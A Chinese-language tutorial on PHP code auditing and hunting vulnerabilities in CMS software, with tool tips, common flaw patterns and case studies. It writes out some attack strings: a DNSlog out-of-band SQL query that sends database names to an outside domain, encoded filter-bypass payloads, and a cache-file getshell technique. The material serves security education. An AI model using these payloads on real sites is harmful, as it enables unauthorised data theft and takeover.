# 课程 P1：代码审计与CMS漏洞挖掘实战教程 🛡️

在本节课中，我们将学习如何通过代码审计技术来挖掘CMS（内容管理系统）中的安全漏洞。课程将从基础环境搭建讲起，逐步深入到进阶技巧和实战案例分析，旨在帮助初学者理解代码审计的核心思路，并掌握发现常见漏洞的方法。

## 基础篇：环境与工具准备 🛠️



上一节我们概述了课程目标，本节中我们来看看进行代码审计所需的基础环境和工具。



### 环境搭建

推荐使用 **PHPStudy** 集成环境包。它在Windows系统下非常方便，可以轻松切换PHP、MySQL等组件的版本，省去手动配置的麻烦。对于审计ASP.NET等类型的代码，原理是相通的，主要区别在于语言特性和过滤函数。

### 审计工具

以下是进行代码审计时常用的一些工具：

*   **Burp Suite**： 用于拦截和修改HTTP请求，是Web安全测试的核心工具。
*   **Fiddler**： 另一款强大的HTTP抓包调试工具。
*   **Fortify SCA**： 一款源代码静态分析工具。但对于新手，建议谨慎使用，因为其基于规则匹配，误报率可能较高，容易让人不知所措。
*   **MySQL Monitor**： 一个非常实用的工具。它通过监听MySQL的日志文件，实时显示执行的所有SQL语句，对于分析数据库操作和发现SQL注入点至关重要。
*   **Sublime Text**： 一款优秀的代码编辑器。其清晰的界面和强大的代码跳转、搜索功能，能极大提高代码阅读和审计的效率。

### 基础知识：常见漏洞类型

代码审计的核心是识别安全漏洞。以下是一些最常见的Web漏洞类型，初学者需要对其有基本了解：

*   SQL注入
*   跨站脚本攻击
*   命令执行
*   文件上传漏洞
*   逻辑漏洞
*   文件包含
*   等等

为了帮助大家系统化理解，可以参考网络上流传的 **“PHP代码审计思维导图”**（例如乌云知识库中“论PHP常见漏洞”一文所附）。该导图几乎涵盖了PHP代码中所有可能的安全问题点，是很好的学习索引。

## 进阶篇：经典案例与奇技 🧠





基础篇我们介绍了环境和常见漏洞，本节中我们来看看审计过程中一些经典的安全问题和实用的高级技巧。





### 经典案例



以下是审计时频繁遇到且容易被忽视的几类安全问题：

1.  **无双引号包含的SQL参数**
    关键代码模式：`$sql = "SELECT * FROM table WHERE id=" . $_GET[‘id‘];`
    当传入的ID参数未被单/双引号包裹时，即使存在全局过滤函数，绕过过滤并成功注入的可能性也大大增加。审计时应重点关注SQL语句中参数的拼接方式。

2.  **htmlspecialchars函数的误解**
    函数 `htmlspecialchars($string)` 默认**不编码单引号**，仅当设置 `ENT_QUOTES` 参数时才会编码。因此，如果程序员误以为此函数能防御SQL注入，而代码中SQL语句恰用单引号包裹参数，则可能产生注入漏洞。同时，对于存储型XSS，如果输出点在HTML标签属性内（如``），可利用 `onfocus` 等事件属性绕过对`<`、`>`的过滤。



3.  **单引号逃逸**
    问题常出现在“入库转义，出库反转义”的逻辑中。例如，使用 `addslashes` 对输入转义后存入数据库，但在从数据库取出数据并使用 `stripslashes` 处理时，如果处理不当，可能造成转义字符`\`被剥离，使得被保护的单引号“逃逸”，从而闭合SQL语句。核心是关注数据在整个“输入-存储-输出”流程中的变化。





4.  **宽字节注入**
    核心是字符编码转换问题。当数据库使用GBK等宽字符集，而PHP使用UTF-8时，利用 `iconv(‘UTF-8‘, ‘GBK‘, $string)` 等函数进行转换时，可能会“吃掉”转义字符`\`（`%5c`），从而导致单引号逃逸。审计时需留意字符集设置和转换函数。

5.  **str_replace过滤的绕过**
    若过滤函数使用 `str_replace` 将危险字符（如`‘`）**替换为空**，则可通过嵌套方式绕过。例如，过滤 `‘`，可输入 `%2527`（`%27`是`‘`的URL编码）。第一次处理时，`%25`被解码为`%`，得到`%27`；第二次处理（或程序自身解码）时，`%27`被解码为`‘`，从而成功引入单引号。





### 奇技分享

1.  **DNSlog在盲注中的应用**
    传统布尔/时间盲注效率低、易被屏蔽。利用 `load_file()` 函数配合DNS解析记录，可以将查询结果通过DNS请求外带。例如：`SELECT load_file(concat(‘\\\\‘, (SELECT database()), ‘.dnslog-platform.com\\abc‘))`。执行后，查询的数据库名会作为子域名被请求，从而在DNSlog平台上看到结果，高效且隐蔽。

2.  **80sec防注入系统的绕过**
    一些老系统使用80sec的防护代码。它有两层过滤：第一层黑名单可通过大小写、内联注释`/*!*/`绕过；第二层会替换单引号间的内容为`$$$`。利用 `%df%27` 或 `%27%22%27` 等方式，使单引号被转义或包裹，让我们的注入代码位于被替换的`$$$`区域内，从而保护核心的 `union select` 等关键词不被检测。



3.  **ThinkPHP缓存Getshell**
    在ThinkPHP框架中，缓存文件可能存储在 `Runtime/Cache/` 目录下。如果缓存内容用户部分可控，且写入方式存在缺陷（如序列化数据拼接），可能通过注入换行符等方式，将PHP代码写入缓存文件，从而造成Getshell。审计时应关注任何文件写入操作，特别是文件名和内容是否可控。





## 实战篇：案例分析 🎯

进阶篇我们学习了一些特定场景的漏洞，本节中我们将这些知识应用于实际CMS的漏洞分析中。

### 案例一：PHPCMS任意文件读取漏洞

**漏洞简述**： 该漏洞利用Windows文件名解析特性和编码绕过，实现了任意文件读取。

**核心思路**：
1.  找到文件下载功能入口，定位可控参数。
2.  参数经过加密、解密、解析等多重处理。
3.  关键绕过点：补丁将`<`、`>`替换为空，但可利用`%81`-`%99`的字符（如`%81`）在Windows下同样实现目录遍历。
4.  通过构造特殊的参数，最终使 `file_get_contents` 读取到预期外的文件路径。



**审计启示**： 关注加密解密流程、路径解析函数以及操作系统特性对文件操作的影响。

### 案例二：某CMS任意密码修改漏洞

**漏洞简述**： 利用弱类型比较和逻辑缺陷，未授权修改任意用户密码。

**核心代码逻辑**：
1.  在密码找回处，提交安全问题答案。
2.  从数据库取出的答案默认为字符串`‘0‘`，用户提交的答案也为`‘0‘`。
3.  代码使用 `==`（弱类型比较）进行校验，`‘0‘ == ‘0‘` 为真，通过验证。
4.  后续函数调用链中，因某个条件判断为`‘no‘`，跳转到密码修改页面，且修改的用户ID参数未经验证，导致可修改任意用户密码。





**审计启示**： 警惕 `==` 和 `===` 的区别，严格校验用户身份标识，梳理清楚条件判断的分支逻辑。







### 实战审计思路演示



以某外贸CMS为例，演示白盒审计的一般流程：





1.  **信息收集**： 确定CMS名称、版本，利用指纹搜索潜在目标。
2.  **功能点梳理**：
    *   前台：商品展示、搜索、留言咨询。
    *   后台：登录、管理（通常路径随机或隐蔽）。
3.  **漏洞挖掘**：
    *   **搜索功能**： 检查搜索参数过滤，是否存在SQL注入或XSS。
    *   **商品详情页**： `id`参数是否直接拼接SQL，且无双引号包裹（经典案例1）。
    *   **留言功能**： 检查`name`、`email`、`content`、`ip`等参数的过滤。发现`ip`参数通过`getIP()`函数获取，未过滤，存在存储型XSS和SQL注入风险。
    *   **后台登录**： 发现登录逻辑中，用户名和密码字段使用了`htmlspecialchars`但未加`ENT_QUOTES`参数，且SQL语句用单引号包裹，存在万能密码登录可能。同时，后台地址可通过分析代码生成规则进行爆破。
4.  **总结**： 审计时不必逐行阅读，应结合黑盒测试（抓包改参）与白盒分析（追踪参数流向），快速定位功能点，再深入分析对应代码。

## 总结与拓展 🚀

本节课中我们一起学习了代码审计的基础知识、进阶技巧，并分析了两个真实的CMS漏洞案例。

**核心要点总结**：
1.  **环境与工具**是基础，`MySQL Monitor`和代码编辑器尤其重要。
2.  **理解漏洞本质**比记住漏洞编号更重要，如弱类型比较、编码转换、过滤逻辑等。
3.  **审计思路**： 从功能点入手，追踪可控参数，分析处理流程，重点关注用户输入与最终执行点之间的所有操作。
4.  **奇技妙用**： 如DNSlog外带数据，能极大提升盲注效率。

**关于CVE**： 获得CVE编号是技术能力的结果而非目标。对于初学者，可以从中小型、最新更新的CMS入手，挖掘高危漏洞并迅速提交。注意，提交CVE需要一定的英文能力来描述漏洞。



代码审计是一条需要耐心和积累的道路。希望本教程能为你打开这扇大门，助你在安全研究的道路上不断精进。